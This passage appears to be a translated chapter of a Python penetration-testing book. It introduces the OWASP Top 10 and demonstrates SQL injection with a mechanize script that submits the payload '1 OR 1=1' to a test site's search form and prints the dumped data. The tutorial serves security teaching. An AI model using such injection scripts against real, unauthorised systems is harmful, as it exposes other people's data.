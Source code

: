 # 四、使用 Python 攻击脚本

**开放式 Web 应用程序安全项目**（**OWASP**）前 10 名是 10 个最关键的 Web 应用程序安全风险列表。在本章中，我们将讨论如何使用 Python 库编写 OWASP top 10 攻击脚本：

*   注射
*   断开的身份验证
*   跨站点脚本（XSS）
*   不安全的直接对象引用
*   安全配置错误
*   敏感数据暴露
*   缺少功能级访问控制
*   CSRF 攻击
*   使用具有已知漏洞的组件
*   未验证的重定向和转发

# 注射

SQL 注入是一种攻击者可以创建或更改 SQL 命令以泄露数据库中数据的方法。如果应用程序接受用户输入并将其与静态参数组合以构建 SQL 查询，而无需进行适当的验证，则这种方法非常有效。

同样，所有类型的注入攻击都可以通过操纵应用程序的输入数据来完成。使用 Python，我们可以向应用程序注入一些攻击向量，并分析输出以验证攻击的可能性。Mechanize 是一个非常有用的 Python 模块，用于在 web 表单中导航，它使用 Python 提供有状态编程的 web 浏览体验。

我们可以使用`mechanize`提交表格并分析回复：

```
import mechanize 
 # Import module 

# Set the URL 
url = "http://www.webscantest.com/datastore/search_by_id.php" 

request = mechanize.Browser() 

request.open(url) 

# Selected the first form in the page 
request.select_form(nr=0) 

# Set the Id  
request["id"] = "1 OR 1=1" 

# Submit the form 
response = request.submit() 

content = response.read() 

print content 

```

这将打印 POST 请求的响应。这里我们提交一个攻击向量来中断 SQL 查询并打印表中的所有数据而不是一行。当测试一个网站时，我们必须创建许多像这样的定制脚本来测试许多类似的攻击向量。

